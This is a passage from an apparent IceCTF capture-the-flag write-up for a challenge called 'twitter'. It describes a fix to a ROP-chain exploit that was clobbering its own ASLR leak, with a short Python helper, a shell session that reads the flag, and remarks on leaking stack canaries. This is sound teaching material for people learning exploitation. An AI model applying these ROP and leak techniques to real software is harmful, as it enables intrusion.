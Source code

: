 Eventually, I realized that the ropchain was clobbering the leak location, since the address I was using to leak was after the return address.

Bamboozled by statefulness yet again, I guess this is why some people prefer functional programming.

## The final fix

I patched my exploit by adding a section of code at the beginning that copied the address at the leak location to a higher area on the stack so it could not be clobbered.

```
# Moves the leak used to bypass ASLR to a lower address to prevent clobbering
# by the ropchain
def setup_leak():
    p = ''
    p += read64(far_leak_loc_off)
    p += write64(near_leak_loc_off)
    return p
```

```
[adversary ~]$ ./twitter PAYLOAD.ROM
$ whoami
target
$ cd ../target
$ ls
flag.txt
$ cat flag.txt
IceCTF{R0P_1977_styl3}
$
```

## Final thoughts

It remains unclear why this challenge is called "twitter." After thinking about it for a bit, I realized that "chip" sounds like "chirp." Both "chirp" and "twitter" are bird sounds. I tried to confirm this with one of the IceCTF organizers, but they claimed to have no idea about the reason for the challenge name. Apparently this challenge was not made by one of the organizers.

This challenge would (I think) still be solvable even if stack smash protection were enabled, since the stack writes don't necessarily have to overwrite the canary. Even if they did, the canary could always be leaked through stack reads.

This was hard.
